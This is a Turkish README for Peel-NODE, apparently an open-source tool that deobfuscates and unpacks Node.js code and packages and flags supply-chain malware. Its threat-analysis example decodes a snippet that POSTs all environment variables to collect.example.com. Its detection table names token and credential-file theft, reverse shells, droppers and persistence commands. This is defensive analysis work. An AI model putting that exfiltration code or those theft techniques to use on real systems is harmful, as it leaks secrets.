






<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="public/peel-logo-horizontal-dark-3000.png">
    
  </picture>
</p>

<p align="center">
  <b>Node.js çalıştırılabilirlerini ve paketlerini açar, içindeki koddan gizlemeyi soyar.</b><br>
  Açık kaynak · MIT · sonsuza dek ücretsiz · kodunuz cihazınızdan çıkmaz
</p>

<p align="center">
  <a href="README.md">English</a> ·
  <a href="#hızlı-başlangıç">Hızlı başlangıç</a> ·
  <a href="#örnekler">Örnekler</a> ·
  <a href="#özellikler">Özellikler</a> ·
  <a href="#komut-satırı">CLI</a> ·
  <a href="#nasıl-çalışır">Nasıl çalışır</a> ·
  <a href="https://github.com/LLCForge/Peel-JS">Peel-JS</a>
</p>

<p align="center">
  
</p>

---

## Peel-NODE nedir?

Peel-NODE, Node.js kodu için bir deobfuscator ve paket açıcıdır. Ona gizlenmiş bir `.js` dosyası, bir npm tarball'ı,
bir Electron `app.asar`'ı ya da pkg, nexe veya Node SEA ile üretilmiş bir çalıştırılabilir verin. Kapsayıcıyı bellekte açar,
içindeki her betiği bulur, her birini çözer ve kodun bir Node makinesinde ne yapacağını söyler.

[Peel-JS](https://github.com/LLCForge/Peel-JS)'in çatalıdır; tarayıcı odaklı bu kardeş projenin motorunu korur.
Peel-NODE'un eklediği her şey Node'a özgüdür:

- **Node paketlerini açar.** pkg, nexe ve Node SEA çalıştırılabilirleri (PE, ELF ve Mach-O), npm `.tgz` tarball'ları, Electron
  `.asar` arşivleri ve `.zip` dosyaları bellekte açılır; diske hiçbir şey yazılmaz. Giriş noktaları, `package.json` `main` / `bin`
  ve kurulum betikleri işaretlenir. V8 bytecode (bytenode `.jsc`, pkg'nin varsayılan modu) kaynağa geri çevrilemez;
  Peel-NODE bunu açıkça söyler, onun yerine başlığı ve okunur dizgeleri çıkarır.
- **Kodu öykünülmüş bir Node.js'te çalıştırır.** QuickJS sandbox'ına `require`, `process`, `Buffer`, `fs`, `child_process`, `net`,
  `http(s)`, `dns`, `os`, `vm` ve `worker_threads` taklitleri verilir. Gerçek hiçbir şeye dokunulmaz: taklitler yalnızca kodun
  ne yapmaya çalıştığını kaydeder. Ortam otomatik seçilir (`--env auto|node|browser`).
- **Node yükleyicilerini açar.** `eval`, `vm.runInThisContext`, `new vm.Script(...)`, `Function(...)`, `module._compile` ve
  programın kendi yazdığı bir dosyanın `require`'ı, çalıştırdıkları kodla değiştirilir. Bu yalnızca ortam, dosyalar, argv, saat
  ve rastgelelik farklı verilerek yapılan ikinci çalıştırma birebir aynı kodu üretirse yapılır.
- **Kodun bir makineye ne yapacağını söyler.** Tehdit raporu npm tedarik zinciri saldırılarını tanır: kurulum betiği kötüye
  kullanımı, ortam değişkeni ve token hırsızlığı, kimlik dosyaları, Discord ve tarayıcı hırsızları, kripto clipper'lar, ters kabuklar,
  indiriciler, kalıcılık, typosquatting, bağımlılık karışıklığı ve bilinen zararlı aileleri.
- **Kendi değişikliklerini yine kanıtlar.** Her pass'ten sonra çıktı yeniden parse edilir ve sandbox'ta davranışı denetlenir.
  Programın yaptığını değiştiren pass geri alınır.

Web uygulaması, CLI ve kütüphane: hepsi yerelde çalışır. Sunucu, telemetri ya da yükleme yoktur.

## Hızlı başlangıç

Node.js 20 ya da daha yenisi gerekir.

```bash
git clone https://github.com/LLCForge/Peel-NODE.git
cd Peel-NODE
npm install
```

Komut satırı:

```bash
node bin/peel-node.js gizli.js -o temiz.js
node bin/peel-node.js uygulama.exe --out-dir out     # pkg / nexe / SEA çalıştırılabiliri
node bin/peel-node.js paket.tgz --out-dir out --report out/rapor.json
```

Web arayüzü:

```bash
npm run dev
```

<http://localhost:5173> adresini açın. Kodu yapıştırın, sayfaya bir `.js`, `.jsc`, `.tgz`, `.asar`, `.zip` ya da `.exe` dosyası
bırakın veya **Örnek kodla dene**'ye tıklayın, sonra **Çöz**'e basın (`Ctrl + Enter`). `npm run build`, `dist/` altında her yerde
barındırabileceğiniz ya da çevrimdışı açabileceğiniz statik bir site üretir.

## Ekran görüntüleri

<table>
  <tr>
    <td width="50%"><br><sub><b>Başlangıç ekranı.</b> Kod yapıştırın ya da bir betik, paket veya çalıştırılabilir bırakın.</sub></td>
    <td width="50%"><br><sub><b>Girdi.</b> Yerleşik örnek: base64 dizge tablosu, bir <code>eval</code> katmanı ve bir <code>zlib</code> katmanı.</sub></td>
  </tr>
  <tr>
    <td><br><sub><b>Rapor.</b> Tehdit puanı, çalışma anı etkileri, tespit edilen araç, ölçümler ve ağ çağrıları.</sub></td>
    <td><br><sub><b>Zaman çizelgesi.</b> Her pass ve turdan sonraki kodu kaydırarak izleyin.</sub></td>
  </tr>
  <tr>
    <td><br><sub><b>Fark.</b> Girdi ile çıktı arasında değişenler.</sub></td>
    <td><br><sub><b>Komut paleti.</b> Her eylem, aranabilir (<code>Ctrl + Shift + P</code>).</sub></td>
  </tr>
  <tr>
    <td><br><sub><b>Araçlar.</b> Sürüm karşılaştırma, geçmiş, paylaşım, arşivler, kurallar ve eklentiler, dersler.</sub></td>
    <td><br><sub><b>Ayarlar.</b> Görünüm, editör, kod katmanları, yerleşim ve biçimlendirme.</sub></td>
  </tr>
</table>

<p align="center">
  <br>
  <sub>Arayüz telefonda da çalışır.</sub>
</p>

## Örnekler

Aşağıdaki tüm çıktılar CLI ile (`peel-node girdi.js --lang en`) varsayılan ayarlarla üretildi.

### Yerleşik örnek

**Örnek kodla dene** düğmesi zararsız bir Node.js parçası yükler: base64 dizge tablosu, base64 ile kodlanmış bir `eval` katmanı ve
onun içinde, mesajını `String.fromCharCode` ile kuran bir `zlib.inflateSync` + base64 katmanı.

```js
// Peel-NODE örnek girdisi
var _0x5a = ['YmFzZTY0', 'dXRmOA=='];
function _0xd(_0xi) { return Buffer.from(_0x5a[_0xi], 'base64').toString(); }
eval(Buffer.from('ZXZhbChyZXF1aXJlKCd6bGliJykuaW5mbGF0ZVN5bmMoQnVmZmVyLmZyb20oJ2VKeE5qVXRM…', _0xd(0x0)).toString(_0xd(0x1)));
```

Peel-NODE çıktısı:

```js
if (process.env.PEEL_NEVER_SET === "1") {
  console.log("dead");
}
// Peel-NODE örnek girdisi

var _0xg = "Peel-NODE";
console.log(_0xg + ": merhaba, " + require("path").basename("/tmp/sample.js"));
```

İki katman da gitti. `if` bilerek kalır: bir ortam değişkenine bağlıdır; silinseydi o değişkenin tanımlı olduğu bir makinede
davranış değişirdi.

### Node yükleyicileri

| Girdi | Çıktı |
|---|---|
| `require("vm").runInThisContext(Buffer.from("Y29uc29sZS5sb2coImhpIik=","base64").toString());` | `console.log("hi");` |
| `new Function(Buffer.from("Y29uc29sZS5sb2cocHJvY2Vzcy5wbGF0Zm9ybSk=","base64").toString())();` | `console.log(process.platform);` |
| `module._compile(Buffer.from("bW9kdWxlLmV4cG9ydHMgPSA0Mjs=","base64").toString(), __filename);` | `(function (exports, require, module, __filename, __dirname) { module.exports = 42; }).call(module.exports, module.exports, require, module, __filename, __dirname);` |
| `eval(atob("Y29uc29sZS5sb2coImhpIik="))` | `console.log("hi");` |
| `if(!![]){console.log("live")}else{console.log("dead")}` | `console.log("live");` |

### Tehdit analizi

```js
var _0x=["aHR0cHM=","Y29sbGVjdC5leGFtcGxlLmNvbQ==","UE9TVA=="];function d(i){return Buffer.from(_0x[i],"base64").toString()}
var r=require(d(0)).request({host:d(1),method:d(2),path:"/e"});r.end(JSON.stringify(process.env));
```

şuna dönüşür

```js
var r = require("https").request({
  host: "collect.example.com",
  method: "POST",
  path: "/e",
});
r.end(JSON.stringify(process.env));
```

ve rapor bunu `env-exfil` olarak sınıflar (puan 60, güven yüksek). Kanıt, statik eşleşmeyi (`process.env`'in tamamı okunuyor)
öykünülmüş çalışma ortamının kaydettikleriyle birleştirir: 25 ortam değişkeni okundu, ardından bunları taşıyan bir
`POST https://collect.example.com/e` yapıldı. Toplam risk: 62, orta.

## Özellikler

Peel-NODE'da **58 pass** vardır: Peel-JS'ten gelen 57 pass ve Node yükleyicilerini açan `node-layers`. Analiz modülleri ortaktır.

### Kapsayıcılar ve paketler

| Biçim | Peel-NODE ne yapar |
|---|---|
| **pkg** (vercel/pkg, @yao-pkg/pkg) | Prelude'u ve sanal dosya sistemini bulur, sözlükle sıkıştırılmış yolları geri kurar, gzip ve brotli yükleri okur, giriş noktasını işaretler. V8 bytecode olarak saklanan dosyalar (pkg varsayılanı) başlık, dizge ve IOC'leriyle raporlanır. |
| **nexe** | Sentinel kuyruğunu, önyükleme içeriğini ve kaynakları okur (nexe 5 ZIP biçimi; eski kaynak tablosu desteklenir ama gerçek çıktıyla doğrulanmadı). |
| **Node SEA** | PE, ELF ya da Mach-O içindeki `NODE_SEA_BLOB`'u bulur; bayrakları, ana betiği, kod önbelleğini ve `sea.getAsset` varlıklarını okur, sigorta (fuse) durumunu raporlar. Anlık görüntüyle (`useSnapshot`) derlenenlerde kaynak yoktur: yalnızca dizgeler çıkarılır. |
| **bytenode `.jsc`** | V8 kod önbelleği başlığını (sürüm karması, kaynak uzunluğu, bayraklar) çözer; ASCII ve UTF-16 dizgeleri, URL, IP ve kabuk komutlarını çıkarır. **Çözülemez, yalnızca dizgeler.** |
| **npm `.tgz`** | Tarball'ı açar, `package.json`'ı okur; `main`, `bin` ve `preinstall` / `install` / `postinstall` / `prepare` betiklerinin çalıştırdığı dosyaları işaretler, `binding.gyp`'ten gelen örtük `node-gyp rebuild`'i not eder. |
| **Electron `.asar`, `.zip`** | Arşivi açar, `package.json`'dan ana süreç girişini işaretler, `app.asar.unpacked` içinde kalan dosyaları listeler. |

Biçimler gerçek araç çıktılarıyla denetlendi: @yao-pkg/pkg 6.25, nexe 5.0.0-beta.4, Node 25.8 SEA (postject), Node 25 üzerinde
bytenode, `npm pack` ve @electron/asar. Örnek dosyalar [`test/node-samples/`](test/node-samples) altındadır.

### Node tehdit analizi

Sınıflar üç kaynaktan gelir: çözülmüş çıktının statik metni, öykünülmüş Node çalışma ortamının etki günlüğü ve açılan
`package.json`. Her sınıf kanıtlarını ve bir güven düzeyini taşır. Çalışma anında görülen bir etki güveni yükseltir.

| Sınıf | Neye bakar |
|---|---|
| `npm-lifecycle` | kurulum betikleri ve bu dosyanın onların çalıştırdığı dosya olup olmadığı; indirme, `eval`, base64 ya da kabuğa yönlendirme puanı yükseltir |
| `env-exfil` | `process.env`'in tamamı ya da gizli görünen değişkenler (`NPM_TOKEN`, `GITHUB_TOKEN`, `AWS_*`, `*_SECRET` …) ile birlikte ağ erişimi |
| `credential-files` | `.npmrc`, `.ssh`, `.aws`, `.git-credentials`, `.netrc`, Docker ve kube yapılandırması, gcloud |
| `discord-token-stealer`, `browser-stealer` | Discord token konumları ve desenleri; tarayıcı profilleriyle birlikte `Login Data`, `Local State`, çerezler, `key4.db` |
| `crypto-clipper`, `wallet-stealer` | cüzdan adresi düzenli ifadeleriyle birlikte pano erişimi; cüzdan dosyaları ve eklenti kimlikleri |
| `reverse-shell` | ham soket + kabuk süreci + aralarında akış bağlantısı |
| `dropper` | indirme, ardından dosya yazma, ardından çalıştırma; çalışma anında sıra da denetlenir |
| `persistence` | Başlangıç klasörü, `reg add … Run`, `schtasks /create`, cron, launchd, systemd, kabuk başlangıç dosyaları |
| `anti-analysis`, `host-recon` | sanal makine / sandbox / hata ayıklayıcı denetimleri; ağ erişimiyle birlikte çok sayıda sistem bilgisi okuması |
| `node-exec`, `chat-exfil` | `child_process` kullanımı; Discord webhook ve Telegram bot adresleri |
| `typosquatting`, `dependency-confusion` | popüler bir paketten tek düzenleme uzaklıktaki paket adı; olağandışı yüksek ana sürüm |
| `known-family` | event-stream, ua-parser-js, coa / rc, node-ipc, Shai-Hulud ve s1ngularity / Nx'in yayımlanmış analizlerindeki işaretler |

Bunlar kanıtlı sezgilerdir, kesin hüküm değildir.

### Desteklenen obfuscator'lar

Motor aynı olduğu için Peel-JS'in çözdüğü her şey burada da çalışır:

| Araç / teknik | Peel-NODE neyi geri alır |
|---|---|
| **javascript-obfuscator / obfuscator.io** | String dizileri (none / base64 / RC4), rotasyon, sarmalayıcılar, proxy'ler, akış düzleştirme, ölü kod, self-defending, debug koruması; kullanılan ayarlar raporlanır |
| **js-confuser** | `Function()` paketleme, RGF, dispatcher, düzleştirme, string sıkıştırma ve gizleme, `length` taklidi, opak yüklemler, bütünlük kilitleri |
| **Node yükleyicileri** | `eval`, `vm.runInThisContext` / `runInNewContext` / `vm.Script`, `Function`, `module._compile`, yazılmış bir dosyanın `require`'ı |
| **Paketler (bundle)** | webpack ve esbuild (Node hedefleri dahil), browserify, Parcel, ncc tanınır; `--split` modülleri ayrı dosyalara yazar |
| **Paketleyiciler ve kodlayıcılar** | Dean Edwards packer, JSFuck, AAEncode, JJEncode, base64 / hex / XOR / gzip / deflate zincirleri |
| **Bytecode VM'ler** | Tespit edilir, disassemble edilir; yorumlayıcı tanınabiliyorsa okunur koda çevrilir |
| **Babel ve TypeScript çıktısı** | Yardımcılar, `regenerator` durum makineleri ve sınıflar modern sözdizimine döndürülür |

JScrambler gibi ticari korumalar **yalnızca tanınır, çözülmez**.

### Rapor ve arayüz

- Kanıtlarıyla tespit edilen obfuscator ve paketleyici; düz JS içindeki pkg, nexe, SEA ve bytenode izleri dahil
- IOC'ler: alan adları, URL'ler, IP'ler, cüzdanlar, Discord webhook'ları, Telegram botları, indirme ve paste adresleri; dışa aktarımda sırlar maskelenir
- YARA ve Suricata kuralları, SARIF 2.1.0, olay müdahale raporu ve JSON dışa aktarım
- CodeMirror editörleri, sekmeler ve proje grupları (açılan paket, giriş noktaları önde olmak üzere bir grup olarak açılır),
  zaman çizelgesi, fark, komut paleti, beş dil (English, Türkçe, Deutsch, Español, العربية) ve mobil yerleşim

## Komut satırı

```bash
node bin/peel-node.js gizli.js -o temiz.js --report rapor.json
cat gizli.js | node bin/peel-node.js - > temiz.js
node bin/peel-node.js uygulama.exe --out-dir out --sarif out/peel.sarif
node bin/peel-node.js lib/ --out-dir out --fail-on high
```

`npm link` ile genel olarak kurup `node bin/peel-node.js` yerine `peel-node` yazabilirsiniz.

Bir kapsayıcı verildiğinde çıktı dizininde özgün klasör yapısıyla `<ad>.unpacked/` ve biçim, meta veri ve notları taşıyan
`<ad>.unpack.json` oluşur. İçerideki her betik paket bağlamıyla birlikte çözülür ve analiz edilir.

| Seçenek | |
|---|---|
| `-o, --out` / `-d, --out-dir` | çıktı dosyası ya da toplu iş ve kapsayıcılar için çıktı dizini |
| `-r, --report`, `--sarif`, `--html`, `--incident` | JSON rapor, SARIF 2.1.0, bağımsız önce/sonra HTML'i, olay müdahale Markdown'ı |
| `--env <auto\|node\|browser>` | sandbox ortamı; `auto`, Node işaretleri görünce Node öykünmesini kullanır |
| `-m, --source-map`, `--out-map` | kaynak haritasından isim kurtar; çıktıdan girdiye harita yaz |
| `-s, --split <dizin>` | webpack, esbuild, browserify ya da Parcel paketinin modüllerini ayrı dosyalara yaz |
| `-p, --profile`, `-l, --level` | pass profili (`all`, `auto` ya da araç adı) ve 1–4 arası seviye |
| `--order-search`, `--cascade` | birkaç pass sırası dene ve en iyi doğrulanmış sonucu tut; ya da seviye seviye çöz |
| `--vm-out <dizin>`, `--jsvmp` | bytecode VM'ler için bytecode, assembly, IR ve çevrilmiş kodu yaz |
| `--git <dizin>` | her pass bir commit olacak şekilde git deposu oluştur |
| `--rules`, `--plugin`, `--trust` | dönüşüm kuralları, eklentiler ve imzalı eklentiler için güvenilen Ed25519 anahtarları |
| `--fail-on <düzey>` | risk `low`, `medium` ya da `high` düzeyine ulaşırsa 4 koduyla çık (CI için) |
| `--no-sandbox`, `--no-deep` | yalnızca statik pass'ler; ya da pass başına davranış denetimini atla |
| `--lang <tr\|en>` | kod içi açıklamaların ve HTML raporun dili |
| `-w, --watch`, `-q, --quiet`, `--json` | değişiklikleri izle, logları sustur, sonuçları JSON olarak yaz |

Alt komutlar (`peel-node <komut> --help`): `diff`, `track`, `history`, `serve`, `bot`, `asar`, `symbols`, `share`,
`unshare`, `plugin`, `explain`, `techniques`, `learn`, `ctf`, `obfuscate`, `anonymize`, `changelog`, `passes`, `asm`, `vm-compare`.

Çıkış kodları: `0` tamam, `1` hata, `2` kullanım, `3` değişiklik (`track --once`), `4` risk eşiğine ulaşıldı.

## Kütüphane

```bash
npm install github:LLCForge/Peel-NODE
```

```js
import { peel } from 'peel-node';

const { code, report, verified } = await peel(gizliKaynak, { env: 'node' });
console.log(code);                        // okunur kod
console.log(verified);                    // her değişiklik davranış denetiminden geçtiyse true
console.log(report.threat.classes);       // [{ id: 'env-exfil', score: 60, confidence: 'high', evidence: […] }]
console.log(report.threat.node.iocs);     // { discordWebhooks, telegram, downloads, pastes }
```

Paket açıcılar [`src/node/unpack.js`](src/node/unpack.js) içindedir (`unpack(bytes, name)`) ve hem tarayıcıda hem Node'da çalışır.
TypeScript tipleri dahildir. `npm run build:lib` tek dosyalık bir ESM paketi üretir.

## Entegrasyonlar

| | |
|---|---|
| **GitHub Action** | [`action.yml`](action.yml): `uses: LLCForge/Peel-NODE@main` ve `files: dist/**/*.js`; `bin/peel-node.js`'i çalıştırır, SARIF ve adım özeti yazar, risk düzeyinde başarısız olur |
| **REST API, botlar** | `peel-node serve` (bearer token, yalnızca `127.0.0.1`) ve `peel-node bot` (Slack / Discord, imza denetimi) |
| **Editörler ve araçlar** | [`extensions/`](extensions): VS Code, mitmproxy, Burp Suite, Jupyter, Observable, Semgrep; Peel-JS'ten devralındı |
| **Masaüstü** | [`src-tauri`](src-tauri): bir Tauri uygulaması |

## Nasıl çalışır



| Klasör | İçerik |
|---|---|
| `src/node/` | paket açıcılar (`unpack.js`), V8 kod önbelleği okuyucu (`v8cache.js`), Node tehdit analizi (`threat.js`) |
| `src/passes/` | `38-node-layers.js` dahil 58 pass |
| `src/sandbox/` | QuickJS host'u, tarayıcı taklitleri, Node öykünmesi (`node-stubs.js`), ortam tespiti, bekçi |
| `src/core/` | pipeline, parse, tespit, kodlamalar, kripto, tehdit analizi, VM çevirisi |
| `src/analysis/`, `src/opt/`, `src/symbolic/` | CFG, veri akışı, SSA, çözücü, sembolik ve konkolik yürütme |
| `src/naming/`, `src/ui/` | yeniden adlandırma ve tip çıkarımı; web arayüzü |
| `src/cli/`, `src/server/`, `bin/` | `peel-node` CLI'ı, REST API ve botlar |
| `test/` | fixture'lar, Node örnekleri, birim testleri ve benchmark |

## Güvenlik modeli

- Güvenilmeyen kod yalnızca bir worker (Node'da `worker_thread`) içindeki QuickJS'te (WebAssembly) çalışır; bellek sınırı,
  kesme süresi ve kilitlenen motoru yeniden başlatan bir bekçi vardır.
- Node öykünmesi tasarım gereği sahtedir: `fs`, `child_process`, `net`, `http` ve diğerleri yalnızca çağrıları kaydeder.
  `process.env` sabit, sır içermeyen sistem değişkenleri taşır; sizinkileri asla.
- Kapsayıcılar bellekte baytlardan ayrıştırılır. `--out-dir` istemediğiniz sürece arşivden ya da çalıştırılabilirden diske hiçbir şey
  yazılmaz; açılan çalıştırılabilirler asla çalıştırılmaz.
- Test paketinde 18 sandbox kaçış denemesi vardır; hepsinin başarısız olması gerekir.

## Dürüst sınırlar

- **V8 bytecode erişim dışındadır.** bytenode `.jsc` dosyaları, pkg'nin bytecode'a derlediği dosyalar ve SEA anlık görüntüleri
  kaynak değil, dizge ve IOC verir. Bilinen tabloda yalnızca bir V8 sürüm karması vardır (V8 14.1, Node 25.8); diğerleri ham karma olarak gösterilir.
- zstd ile sıkıştırılmış pkg yükleri desteklenmez. SEA `execArgv` listesi ayrıştırılmaz. Eski nexe kaynak tablosu gerçek çıktıyla
  denetlenmedi.
- Tehdit sınıfları sezgiseldir. Rapordaki kanıt metinleri şimdilik `--lang` ne olursa olsun Türkçedir.
- Davranış denetimi konsol çıktısını ve gözlenebilir yan etkileri karşılaştırır; tek bir çalıştırma gözlenerek çözülen değerler
  yalnızca o çalıştırmanın geçtiği yolları kapsar.
- `extensions/` altındaki eklentiler Peel-JS'ten devralındı ve hâlâ `peel-js` paket adına başvuruyor.
- JScrambler gibi ticari korumalar tanınır ama çözülmez.

## Testler

```bash
npm test          # 173 fixture tüm pipeline'dan davranış denetimiyle geçer, ardından 42 birim test dosyası
npm run bench     # 131 gizlenmiş örnek: çıktı aynı davranmalı ve beklenen dizgeleri içermeli
```

Paket açıcılar [`test/node-samples/`](test/node-samples) altındaki gerçek pkg, nexe, SEA, bytenode, npm, asar ve zip çıktılarıyla
test edilir (antivirüslerin diskte işaretlememesi için XOR ile kodlanmış olarak saklanır).

## Katkı

Issue ve pull request'ler memnuniyetle karşılanır. Peel-NODE'un açamadığı bir paket ya da çalıştırılabilir varsa küçük ve zararsız
bir yeniden üretimiyle issue açın. `peel-node anonymize ornek.js`, kaynağı belli edebilecek dizgeleri ve adları kaldırır.
Düzeltmeyi kanıtlayan bir fixture ekleyen pull request en hızlı birleştirilen yoldur.

## Lisans

[MIT](LICENSE). Ticari kullanım dahil kullanmak, değiştirmek ve yeniden dağıtmak serbesttir. Ücretli sürüm, hesap ya da telemetri yoktur.
